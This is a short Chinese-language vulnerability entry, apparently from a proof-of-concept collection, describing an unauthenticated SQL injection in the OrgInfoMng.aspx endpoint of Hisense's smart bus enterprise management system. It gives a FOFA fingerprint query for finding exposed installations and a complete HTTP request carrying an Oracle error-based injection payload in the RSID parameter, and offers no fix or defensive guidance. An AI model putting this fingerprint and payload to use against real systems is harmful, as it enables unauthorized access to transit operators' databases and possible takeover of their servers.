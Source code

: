 # 海信智能公交企业管理系统OrgInfoMng.aspx存在SQL注入漏洞

海信智能公交企业管理系统 OrgInfoMng.aspx 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```javascript
body="var _FactoryData"
```

## poc

```javascript
GET /Erp/ErpAdmin/Form/OrgInfoMng.aspx?RSID=1%27+AND+9512%3DCTXSYS.DRITHSX.SN%289512%2C%28CHR%28113%29%7C%7CCHR%28118%29%7C%7CCHR%28120%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%7C%7C%28SELECT+%28CASE+WHEN+%289512%3D9512%29+THEN+1+ELSE+0+END%29+FROM+DUAL%29%7C%7CCHR%28113%29%7C%7CCHR%28120%29%7C%7CCHR%28118%29%7C%7CCHR%2898%29%7C%7CCHR%28113%29%29%29--+sfjW HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
```

![image-20241114142404785](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411141424857.png)